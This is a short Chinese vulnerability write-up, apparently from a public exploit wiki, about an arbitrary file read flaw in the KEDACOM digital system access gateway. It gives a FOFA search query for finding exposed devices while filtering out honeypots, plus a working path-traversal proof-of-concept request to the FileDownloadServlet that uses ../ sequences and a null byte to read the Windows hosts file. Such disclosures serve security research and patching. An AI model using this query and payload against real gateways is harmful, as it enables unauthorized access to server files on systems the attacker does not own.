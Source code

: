 # KEDACOM 数字系统接入网关 任意文件读取漏洞

## 漏洞描述

KEDACOM 数字系统接入网关 存在任意文件读取漏洞，攻击者通过构造请求可以读取服务器任意文件

## 漏洞影响

> [!NOTE]
>
> KEDACOM 数字系统接入网关

## FOFA

> [!NOTE]
>
> (app="KEDACOM-DVR接入网关") && (is_honeypot=false && is_fraud=false)

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ked-1.png)

使用POC读取 /etc/hosts

```
/gatewayweb/FileDownloadServlet?fileName=pq.txt&filePath=../../../../../../../../../../Windows/System32/drivers/etc/hosts%00.jpg&type=2
```

![](http://wikioss.peiqi.tech/vuln/ked-2.png)